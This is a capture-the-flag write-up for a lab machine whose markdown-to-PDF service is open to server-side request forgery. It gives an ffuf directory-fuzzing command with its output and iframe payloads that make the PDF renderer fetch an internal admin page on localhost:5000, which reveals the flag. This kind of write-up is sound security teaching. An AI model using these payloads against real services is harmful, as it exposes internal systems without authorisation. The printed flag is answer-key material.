 # PORT SCAN
---


| PORT | SERVICE |
| :--- | :------ |
| 22 | SSH |
| 80 | HTTP |
| 5000 | RSTP |



# RECONNAISSANCE
---

If we check the web application, we can see this:


![Pasted image 20250617123928.png](../../IMAGES/Pasted%20image%2020250617123928.png)

As seen, we can convert markdown to pdf, this is highly vulnerable since at its core it blindly hands our Markdown straight off to a server‘side renderer, whether that's a headless browser or Pandoc+LaTeX with no filtering or authentication. 

That means we can sneak in `<script>` tags or raw LaTeX commands and make the server fetch internal URLs (like `localhost:5000/resource`) or even execute shell commands. In short, untrusted input becomes powerful SSRF or RCE, exposing private admin panels and letting attackers run arbitrary code.

If we fuzz, we can find this:

```bash
ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u "http://10.10.129.226/FUZZ" -ic -c -t 200 -e .php,.html,.txt,.git,.js

 /'___\ /'___\ /'___\
 /\ \__/ /\ \__/ __ __ /\ \__/
 \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
 \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
 \ \_\ \ \_\ \ \____/ \ \_\
 \/_/ \/_/ \/___/ \/_/

 v2.1.0-dev
________________________________________________

 :: Method : GET
 :: URL : http://10.10.129.226/FUZZ
 :: Wordlist : FUZZ: /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt
 :: Extensions : .php .html .txt .git .js
 :: Follow redirects : false
 :: Calibration : false
 :: Timeout : 10
 :: Threads : 200
 :: Matcher : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

admin [Status: 403, Size: 166, Words: 15, Lines: 5, Duration: 231ms]
```

We can find an admin resource on here, if we try accessing it, this happens:

![Pasted image 20250617124337.png](../../IMAGES/Pasted%20image%2020250617124337.png)

Based on that, we now we can exploit the md2pdf site to achieve access to the admin resource, let's do it.


# EXPLOITATION
---

First of all, we need to exfiltrate the data, we can use the following payload:

```js
<iframe src="http://localhost:5000"></iframe>
```

We use iframe to achieve `SSRF`, basically the pdf engine will render the internal resource and give us access to it, let's test it out:



![Pasted image 20250617125048.png](../../IMAGES/Pasted%20image%2020250617125048.png)

![Pasted image 20250617125056.png](../../IMAGES/Pasted%20image%2020250617125056.png)

It works, let's read admin resource then:

```js
<iframe 
 src="http://localhost:5000/admin" 
 style="width:100%; height:1000px; border:none; overflow:hidden;">
</iframe>
```

![Pasted image 20250617125137.png](../../IMAGES/Pasted%20image%2020250617125137.png)

![Pasted image 20250617125144.png](../../IMAGES/Pasted%20image%2020250617125144.png)

We got our flag:

```
flag{1f4a2b6ffeaf4707c43885d704eaee4b}
```

![Pasted image 20250617125225.png](../../IMAGES/Pasted%20image%2020250617125225.png)

